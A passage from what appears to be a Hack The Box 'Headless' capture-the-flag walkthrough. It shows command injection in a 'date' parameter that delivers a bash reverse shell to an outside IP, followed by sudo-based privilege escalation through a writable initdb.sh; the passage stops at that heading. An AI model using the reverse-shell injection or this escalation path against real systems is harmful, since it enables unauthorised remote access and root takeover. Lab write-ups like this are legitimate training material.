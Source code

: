 Inject a reverse shell in the `date` parameter:

```bash
date=2023-09-15; bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"
```

![[bs_generate_report_edit_date.png]]

As requests are URL encoded, we must encode the payload:

![[bs_generate_report_encode_date.png]]

This time, the reverse shell connects:

![[GitHub Documentation/EASY/HTB_Headless_Writeup/screenshots/user_flag.png]]

✅ **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Checking Sudo Rights

List sudo privileges:

```bash
sudo -l
```

![[dvir_files_to_execute.png]]

We can run `/usr/bin/syscheck` as root without a password.

### 4.2 Analyzing the Script

View its content:

```bash
cat /usr/bin/syscheck
```

![[file_to_execute.png]]

Running as sudo:

```bash
sudo /usr/bin/syscheck
```

![[executing_file.png]]

At the end, it executes `initdb.sh` if not already running.  

This is exploitable because we can create our own malicious initdb.sh

### 4.3 Exploit `initdb.sh`
